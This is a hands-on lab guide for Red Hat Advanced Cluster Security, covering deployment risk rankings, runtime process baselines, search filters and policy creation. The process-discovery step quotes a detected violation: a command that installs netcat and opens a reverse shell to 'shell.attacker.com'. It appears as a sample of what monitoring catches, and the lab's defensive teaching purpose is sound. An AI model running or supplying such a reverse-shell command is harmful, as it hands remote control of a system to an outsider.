




:labname: Risk

== {labname} Lab

:numbered:

== Introduction to Risk

You are now acquainted with the detailed information that Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS) provides about vulnerabilities and workflows to manage individual vulnerabilities.
Often the number of vulnerabilities detected can seem daunting to those uninitiated in security practice.
You need a system to evaluate the potential risk of harm from these vulnerabilities.
And you need a way of prioritizing vulnerabilities to be addressed and not just defer them.

RHACS understands the three major phases of an application's lifecycle to be _build_, _deploy_, and _runtime_.

The risk evaluation functionality of RHACS is used to understand how deployment-time configuration and runtime activity impact the likelihood of exploits occurring and how successful those exploits may be.
It assesses risk across your entire environment and ranks your running deployments according to their security risk.
It also details vulnerabilities, configurations, and runtime activities that require immediate attention.
This helps you prioritize the remedial actions you plan to take.

Risk is influenced by runtime activity and deployments with the activity that can indicate a breach.

Realistically it is only possible to tackle some sources of risk, so organizations prioritize their efforts. RHACS helps to inform that prioritization.

.Goals
* View risk justifications
* Lock baselines to track deviations
* Find vulnerabilities quickly with filters
* Create policies from filters

[[labexercises]]

== View Risk Justifications

=== View Risks by Deployment

In this section, you look at the complete view of the risks by deployments in all the clusters of your system.

This list view shows all deployments in all clusters and namespaces, ordered by risk priority.
A multi-factor risk metric sorts deployments based on policy violations, image contents, deployment configuration, and other similar factors.
Deployments at the top of the list present the most risk.

.Procedure
. From the left navigation menu, select the *Risk* tab:
+

=== View Single Deployment Details

In this section, you examine the riskiest deployment to understand how risk is assessed during deploy time.

.Procedure
. Click the `visa-processor` deployment to bring up the *Risk Details* panel, with the *Risk Indicators* tab selected:
+
image:images/rhacs_risk_details_panel.png[Risk Details panel]
+
The *Risk Indicators* tab shows why this deployment is highly risky.
The deployment has serious, fixable vulnerabilities, but it also has configurations such as network ports and service exposure outside the cluster, making it more likely to be attacked.
+
In addition, other configurations, such as privileged containers, mean that a successful attacker has access to the underlying host network and file system, including other containers running on that host.
+
. Navigate to the bottom of the *Risk Indicators* page to the *RBAC Configuration* section.
+
At the bottom, you see another serious problem: the service account associated with this deployment was given _cluster admin_ privileges. This means a successful attacker gains complete control over this entire OpenShift^(R)^ cluster.

All of these configurations are gleaned automatically by RHACS from OpenShift, and the built-in policies assign a risk score to each, meaning that this risk report is available as soon as you start running RHACS.

== Track Processes and Lock Baselines at Runtime

Examining deployment details shows you which security vulnerabilities may be present during deployment time.
Of course, you cannot restrict yourself to build- and deploy-time configuration.

Even a perfectly configured application has the potential for an attacker to gain access and cause havoc at runtime.
In this section, you see how RHACS continuously monitors runtime activity within pods in the deployment, building a baseline of observed behavior and tracking deviations from that baseline.

=== Track Processes

.Procedure
. On the Visa-Processor Risk Details right panel, navigate to the *Process Discovery* tab.
You can see that a baseline of processes is already established and that a few violations of that baseline have already been discovered.
The baseline is a list of the processes currently running.
Alerts are created if RHACS detects new processes that are not in the baseline.
You could, in theory, add those processes to the baseline with the `+` sign and silence the alert, but that is not a good idea.
. Click the drop-down arrow next to `/bin/bash` to reveal the specific context that triggered this violation: `-c /usr/bin/sudo /usr/bin/apt-get -y install netcat; /usr/bin/sudo /bin/nc shell.attacker.com 9001 -e /bin/bash`.

. Click the *View Graph* in the header bar to call up the *Event Timeline*.
+
The event timeline shows for each pod the process activity that has occurred over time.
+
. Click the squares or circles for the process activity:
+

+
You can take advantage of the constrained lifecycle of containers for better runtime incident detection and response.
Containers are not general-purpose virtual machines and therefore, generally have a simple lifecycle.
They typically have a startup period, with some initialization, and then settle down to a small number of processes running continuously and making or receiving connections.
Deviations from the baseline can be used to take enforcement action and alert team members.
Runtime activity rules can be combined with other activity.
+
. Press `Esc` to close the *Event Timeline* window.

=== Lock Baseline

Fortunately, the `visa-processor` deployment is unlocked, and we can change our baselines.

In this section, you take a look at what processes are explicitly allowed to run in the deployment.

.Procedure
. Click the *Process Discovery* tab on the *Risk Details* panel.
. Scroll down to the *Spec Container Baselines* section:
+

+
The tooltip shows that the `visa-processor` container is already unlocked and warns that locking the process baselines will configure alerts in the future.
The list below shows all processes discovered and added to the baseline in the first hour of runtime.
. Scroll down to the bottom of the list and see another container, the `visa-processor-sidecar` that is also accounted for.
. Hover over the lock icon for the `visa-processor-sidecar` and note that it is not locked.
. Go ahead and lock the baseline.
All further processes run in this sidecar that is not among the several listed result in a triggered alert.
. Click *X* to close the details panel.

== Find Vulnerabilities Quickly with Filters

In the *Risk* view and most UI pages, RHACS has a filter bar at the top that allows you to narrow the reporting view to matching or non-matching criteria.
Almost all of the attributes that RHACS gathers are filterable.
This is very useful in the *Risk* view when you know what you are looking for--for example, when you want answers to questions such as, "What applications have CVE-2020-1008 present?".

.Procedure
. Enter `Process Name` in the filter bar (where it reads `Add one or more resource filters`) and select the *Process Name* key.
. Enter `bash` and then press *Enter*.
. Click away to clear the filter.
+
Several deployments are shown to have run `bash` since they started--and all of them are in production.
+
. To the right of the filter bar, hover over the *+* (Create Policy) button
to reveal the *Create Policy from Current Search* tooltip.

== Create Policies from Filters

Now that you are familiar with searching for interesting criteria, you can create a policy from the search filter to automatically identify these criteria going forward.

=== Create Policies

You can create new security policies based on the filtering criteria that you select.
RHACS transforms the filtering criteria into policy criteria by converting the cluster, namespace, and deployment filters to equivalent policy scopes.

To create a policy, you use the same filter to see which deployments have run `bash` that you used previously.

However, when you create new security policies from the *Risk* view based on the selected filtering criteria, not all requirements are directly applied to the new policy.
You must fill out some additional information.

.Procedure
. Click the *+ (Create Policy)* next to the filter bar and complete the required fields to create a new policy:
* *Name*: `No bash allowed`
* *Severity*: `High`
* *Categories*: `Anomalous Activity`
* *Description*: `No bash allowed`
* *Rationale*: `Too many known vulns`
* *Guidance*: `Use ZSH`
* *MITRE ATT&CK*: `The policy can be mapped to a MITRE ATT&CK technique.`
* *Lifecycle stages*: `Runtime`
* *Event sources*; `Deployment`
* *Response method*: `Inform`
* *Inform and enforce*: `Enform on Runtime`

* *Policy Crieria*: `On the right there is a *drag out policy fields* bar.Find *Process Activity* and select *Unexpected process executed*. Drag into into the policy section.`

Make sure to preview the policy before accepting it. 

=== Explore Advanced Filtering

You can write more advanced filters focusing on particular scopes to detect vulnerabilities more accurately.

Local page filtering on the *Risk* view combines the search terms by using the following methods:

* Combines the search terms within the same category with an `OR` operator. For example, if the search query is `Cluster:A,B` the filter matches cluster `A` or cluster `B` deployments.

* Combines the search terms from different categories with an `AND` operator. For example, if the search query is `Cluster:A+Namespace:Z`, the filter matches deployments in cluster `A` and in namespace `Z`.

When you add multiple scopes to a policy, the policy matches violations from any of the scopes. For example, if you search for `(Cluster A OR Cluster B) AND (Namespace Z)` it results in two policy scopes, `(Cluster=A AND Namespace=Z)` OR `(Cluster=B AND Namespace=Z)`.

NOTE: Not all filters can be used in policies.
RHACS drops or modifies filters that do not directly map to policy criteria and reports the dropped filters.
See the link:https://docs.openshift.com/acs/3.74/operating/evaluate-security-risks.html#understanding-filtering-to-policy-mapping_evaluate-security-risks[Understanding ... the filtering criteria into policy criteria^] documentation for more information.

== Extra Work
Try some of these scopes yourself by indicating different namespaces in your filters.

== Summary

In this lab, you became familiar with the power of RHACS.
RHACS does not simply surface vulnerabilities.
It determines the risk of the vulnerabilities based on how and where they appear in the application lifecycle--build, deploy, and runtime.

You learned the various risk priority justifications RHACS provides and filtered and searched through these vulnerabilities.

RHACS reports the risk indicators, deployment details, and processes necessary to discover vulnerabilities for each deployment.

You tracked processes running in containers and locked a baseline of processes, triggering violations for all processes detected that were not in the baseline.

Finally, you created filters to see the extent of a vulnerability across your fleet, and created a policy based on that discovery.

In the next module, you will use the Network Graph to better understand and protect your system and applications.